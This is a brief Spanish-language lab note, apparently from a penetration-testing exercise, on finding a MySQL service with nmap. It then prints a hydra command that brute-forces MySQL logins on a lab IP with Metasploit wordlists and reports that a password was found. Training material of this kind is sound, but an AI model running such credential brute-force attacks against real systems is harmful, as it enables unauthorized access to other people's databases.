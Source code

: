 Hacemos un reconocimiento con nmap para saber por donde está corriendo la base de datos MySQL:
![[Pasted image 20240613010348.png]]

Lo haríamos con este comando:
```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.119.223.3 mysql
```
Y nos encuentra la contraseña:
![[Pasted image 20240613010353.png]]

